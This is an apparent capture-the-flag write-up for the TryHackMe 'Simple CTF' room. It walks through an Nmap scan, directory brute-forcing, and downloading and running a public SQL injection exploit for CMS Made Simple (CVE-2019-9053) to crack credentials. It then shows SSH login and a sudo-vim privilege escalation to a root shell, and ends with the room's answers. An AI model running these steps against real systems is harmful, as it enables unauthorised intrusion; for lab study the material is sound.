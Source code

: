 # Tryhackme Simple CTF - Linux

- [Room](https://tryhackme.com/room/easyctf)

## Nmap

```
┌──(root💀kali)-[~]
└─# nmap -T5 -sC -sV -O -Pn -p- 10.10.61.2   
Starting Nmap 7.92 ( https://nmap.org ) at 2022-05-08 09:12 EDT
Nmap scan report for 10.10.61.2
Host is up (0.22s latency).
Not shown: 65532 filtered tcp ports (no-response)
PORT     STATE SERVICE VERSION
21/tcp   open  ftp     vsftpd 3.0.3
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.13.22.56
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: TIMEOUT
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-robots.txt: 2 disallowed entries 
|_/ /openemr-5_0_1_3 
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.18 (Ubuntu)
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 29:42:69:14:9e:ca:d9:17:98:8c:27:72:3a:cd:a9:23 (RSA)
|   256 9b:d1:65:07:51:08:00:61:98:de:95:ed:3a:e3:81:1c (ECDSA)
|_  256 12:65:1b:61:cf:4d:e5:75:fe:f4:e8:d4:6e:10:2a:f6 (ED25519)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.10 - 3.13 (90%), Crestron XPanel control system (90%), ASUS RT-N56U WAP (Linux 3.4) (87%), Linux 3.1 (87%), Linux 3.16 (87%), Linux 3.2 (87%), HP P2000 G3 NAS device (87%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (87%), Adtran 424RG FTTH gateway (86%), Linux 2.6.32 (86%)
No exact OS matches for host (test conditions non-ideal).
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 333.81 seconds
```

## Gobuster

```
┌──(root💀kali)-[~]
└─# gobuster dir -u http://10.10.61.2/ --wildcard -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-big.txt
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.61.2/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-big.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2022/05/08 09:30:20 Starting gobuster in directory enumeration mode
===============================================================
/simple               (Status: 301) [Size: 309] [--> http://10.10.61.2/simple/]
```

- We find a page using CMS made simple that has a cve. We can try this [exploit](https://www.exploit-db.com/exploits/46635)
- We take it in our kali `wget https://www.exploit-db.com/download/46635`
- `python 46635 -u http://10.10.61.2/simple/ --crack -w /usr/share/seclists/Passwords/Common-Credentials/best110.txt`  
![image](https://user-images.githubusercontent.com/96747355/167299774-d4b46f7f-8392-4ddb-997d-de10c0996705.png)  
- Once the credentials found we can login here http://10.10.61.2/simple/admin/login.php
![image](https://user-images.githubusercontent.com/96747355/167299425-f608f3c4-a573-4aaf-a69b-91bc528d0631.png)  
- **But** we can also try to check if the creds would work with ssh (Remember to specify the port in your ssh command because it is not on default 22 port)
- `ssh mitch@10.10.104.30 -p 2222`

## Privesc

- `sudo -l` we find out that vim is allowed
- We can do this trick [here](https://gtfobins.github.io/gtfobins/vim/#sudo) `sudo vim -c ':!/bin/bash'` I just changed it to get a bash shell
- It works  
![image](https://user-images.githubusercontent.com/96747355/167300375-766777d8-17d5-42a1-8352-554e580f7aeb.png)  

## Questions

- `How many services are running under port 1000?` Answer `2`
- `What is running on the higher port?` Answer `ssh`
- `What's the CVE you're using against the application?` Answer `CVE-2019-9053` reading the exploit we understand that the app is vulnerable to a time based SQL injection.
- `To what kind of vulnerability is the application vulnerable?` Answer `SQLi`
- `What's the password?` I will let you find this on your own
- `Where can you login with the details obtained?` Answer `ssh`
- `What's the user flag?` I will let you find this on your own. Hint: `cat user.txt`
- `Is there any other user in the home directory? What's its name?` We do an `ls /home` and we find the user `sunbath`
- `What can you leverage to spawn a privileged shell?` Answer `vim`
- `What's the root flag?` I will let you find this on your own. Hint: `cat /root/root.txt`
